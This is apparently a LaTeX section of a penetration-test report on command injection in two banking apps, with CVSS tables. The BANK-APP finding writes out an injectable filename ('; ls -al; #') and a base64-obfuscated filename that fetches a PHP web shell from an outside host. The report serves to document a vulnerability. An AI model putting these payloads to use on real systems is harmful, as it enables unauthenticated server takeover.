\subsection{Testing for Command Injection - OTG-INPVAL-013}
\subsubsection{BANK-APP}
\begin{tabular*}{\textwidth}{ p{.20\textwidth} | p{.75\textwidth} }\hline
    & \textbf{BANK-APP} \\ \hline
    \textbf{Observation} & 
    	The batch transaction functionality allows Command Injection via the file upload. Due to a vulnerability mentioned in OTG-AUTHN-004 it is possible to inject commands even without being logged in.
    \\
    \textbf{Discovery} & 
    	Using the filename of a empty batch transaction file we manually crafted a string that was accepted by the system:
    	The file name 
    	\begin{lstlisting} 
    	; ls -al; # 
    	\end{lstlisting} 
    	for example could be used to output a directory listing through the response status code variable. See Fig. \ref{fig:OTG_AUTHN_004_1}
    	Even more carefully file names could even archive tasks like automatically downloading a php remote shell: 
    	\begin{lstlisting}
    	; a=`echo Y3VybCBodHRwOi8vYjM3NGstc2hlbGwuZ29vZ2xlY29k
    	ZS5jb20vZmlsZXMvYjM3NGstMi44LnBocCAtbyBiMzc0ay5waHA= | 
    	base64 --decode` && ${a}; #
    	\end{lstlisting}
    \\
    \textbf{Likelihood} & 
    	As the attacker does neither has to be logged in to perform the atack nor has to be in-detail knowlege of the application it is very likely that this attack will occur.
    \\
    \textbf{Impact} & 
    	An atacker can inject a remote shell and basically gain controll over the whole server.
    \\
    \textbf{CVSS} & 
    	\begin{tabular}{l | l}
            Attack Vector           & \textcolor{red}{Network}/\textcolor{Maroon}{Adjacent Network}/\textcolor{BurntOrange}{Local}/\textcolor{Green}{Physical} \\
            Attack Complexity       & \textcolor{red}{Low}/\textcolor{Green}{High} \\
            Privileges Required     & \textcolor{red}{None}/\textcolor{BurntOrange}{Low}/\textcolor{Green}{High} \\
            User Interaction        & \textcolor{red}{None}/\textcolor{Green}{R} \\
            Scope                   & \textcolor{red}{Unchanged}/\textcolor{Green}{Changed} \\
            Confidentiality Impact  & \textcolor{red}{High}/\textcolor{BurntOrange}{Low}/\textcolor{Green}{None} \\
            Integrity Impact        & \textcolor{red}{High}/\textcolor{BurntOrange}{Low}/\textcolor{Green}{None} \\
            Availability Impact     & \textcolor{red}{High}/\textcolor{BurntOrange}{Low}/\textcolor{Green}{None}
        \end{tabular}
	\\ \hline
\end{tabular*}

\subsubsection{SecureBank}
\begin{tabular*}{\textwidth}{ p{.20\textwidth} | p{.75\textwidth} }\hline
    & \textbf{SecureBank} \\ \hline
    \textbf{Observation} & 
    	We could not detect a Command Injection vulnerability.
    \\
    \textbf{Discovery} &
    	The manually crafted files did only produce a generic error.
    	We also fuzzed the file name using ZEDs command-execution-unix.txt fuzzing template - without success.
    \\
    \textbf{Likelihood} & 
    	N/A
    \\
    \textbf{Impact} & 
    	N/A
	\\
    \textbf{CVSS} &
        N/A
	\\ \hline
\end{tabular*}

\subsubsection{Comparison}
how and why is your app better/worse
\begin{figure}[p]
    \centering
    
\includegraphics[width=0.8\textwidth]{figures/OTG-INPVAL-013-1.png}
    \caption{Using a file with the name \code{; ls -al; \#} returns a listing for the current directory}
    \label{fig:OTG_AUTHN_004_1}
\end{figure}
\clearpage